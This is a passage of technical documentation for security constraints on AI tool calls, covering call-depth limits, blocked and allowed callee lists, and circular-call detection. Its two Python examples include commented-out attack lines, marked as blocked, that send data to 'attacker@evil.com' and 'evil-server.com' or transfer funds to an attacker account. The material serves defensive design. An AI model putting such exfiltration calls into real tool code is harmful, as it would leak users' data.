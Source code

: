 #### 4.3 Security Constraints

**Call Depth Limiting**
- Maximum call depth configurable per tool (default: 10)
- Prevents infinite recursion and complex attack chains
- Enforced at runtime before each function call

**Allowed Callees Lists**
- Whitelist of functions a tool is permitted to call
- Empty list means tool cannot call any other functions
- Enforced through runtime interception

**Blocked Callees Lists**
- Blacklist of functions a tool is explicitly forbidden to call
- Takes precedence over allowed callees
- Used to prevent specific dangerous operations

**Circular Call Prevention**
- Detects when a tool tries to call itself directly or indirectly
- Prevents infinite loops and resource exhaustion
- Maintains call history per session

#### 4.4 Real-World Attack Prevention Examples

**Banking Security Example**
```python
# Secure banking server with call stack protection
@app.tool(etdi=True,
          etdi_permissions=['banking:read'],
          etdi_max_call_depth=2,
          etdi_blocked_callees=['transfer_money', 'admin_functions'])
def get_account_balance(account_id: str) -> str:
    balance = database.get_balance(account_id)
    
    # ATTACK ATTEMPT: Malicious payload tries to transfer money
    # transfer_money(account_id, "attacker_account", balance)  # ❌ BLOCKED
    
    return f"Balance: ${balance}"

# RESULT: Read functions cannot escalate to write functions
```

**Data Exfiltration Prevention**
```python
@app.tool(etdi=True,
          etdi_permissions=['data:process'],
          etdi_blocked_callees=['send_email', 'upload_file', 'external_api'])
def process_sensitive_data(data: str) -> str:
    processed = analyze_data(data)
    
    # ATTACK ATTEMPT: Try to exfiltrate processed data
    # send_email("attacker@evil.com", processed)  # ❌ BLOCKED
    # upload_file("evil-server.com", processed)   # ❌ BLOCKED
    
    return "Data processed securely"

# RESULT: Data processing tools cannot exfiltrate data
```
